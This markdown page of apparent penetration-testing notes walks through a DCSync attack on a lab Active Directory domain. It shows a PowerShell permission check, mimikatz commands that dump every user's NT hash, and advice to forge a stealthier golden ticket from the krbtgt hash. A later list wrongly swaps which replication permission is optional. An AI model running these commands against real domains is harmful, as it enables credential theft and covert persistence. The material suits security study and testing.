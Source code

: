 # _DCSync

- Domain: based.local

To perform the **DCSync** attack, you have to have the following permissions over the domain

The initial foothold must be against a domain account with domain replication privileges; the **Directory Replication Service Remote Protocol** (MS-DRSR); **MS-DRSR** is a legitimate Active **Directory service** that `cannot` be disabled.

![Untitled.png](Using%20DCSync%20attack%20to%20steal%20user%20hashes%20in%20a%20domain/Untitled.png)

# Checking permissions

By default these privileges are limited to the: `domain administrators`, `enterprise administrators`, `administrators`, and `domain controller` groups. However, in certain cases, ordinary domain owners may have the needed permissions to **launch a DCSync attack**. Those roles have replication permissions that include the following rights that enable a DCSync attack: **Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes In Filtered Set (optional)**

Some apps really need these permissions to replicate users in a domain, reason you might see groups or users with these permissions.

`Replicating Directory Changes In Filtered Set is an optional Permission`

You can check this using PowerShell

## Powershell

![Untitled%201.png](Using%20DCSync%20attack%20to%20steal%20user%20hashes%20in%20a%20domain/Untitled%201.png)

```jsx
(Get-Acl "ad:\dc=based,dc=local").Access | ? {$_.IdentityReference -match 'thereplicator' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

## Command breakdown

1. `(Get-Acl "ad:\dc=based,dc=local").Access` - Grab every permission over the [based.local](http://based.local) domain objects
2. `(Get-Acl "ad:\dc=based,dc=local").Access | ? {$_.IdentityReference -match 'thereplicator'}`  - Grab every permission **thereplicator** user has over the domain objects
3. `(Get-Acl "ad:\dc=based,dc=local").Access | ? {$_.IdentityReference -match 'thereplicator' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }` - We've added more checks to previous command to only grab the required permissions for our attack, which are: **Replicating Directory Changes In Filtered Se**t, **Replicating Directory Changes All**, **Replicating Directory Changes** **(optional)**

# Performing the attack itself

We are going to use mimikatz

```jsx
lsadump::dcsync /all /csv
```

This will dump the entire domain in csv format which will output username, RID and NT hash

![Untitled%202.png](Using%20DCSync%20attack%20to%20steal%20user%20hashes%20in%20a%20domain/Untitled%202.png)

You could also specify the domain like

```jsx
lsadump::dcsync /all /csv /domain:based.local
```

# What to do futher?

Well, you could use the Administrator NT Hash but that would not be very stealthy, instead you could use krbtgt's NT Hash to create a golden ticket which is much more stealthier.

# How does the attack work?

The DCSync command in Mimikatz allows an attacker to pretend to be a domain controller and retrieve password hashes from other domain controllers, without executing any code on the target. It does so over the MS-DRSR protocol via the DSGetNCChanges method that replicates updates from a naming context (NC) replica on the server.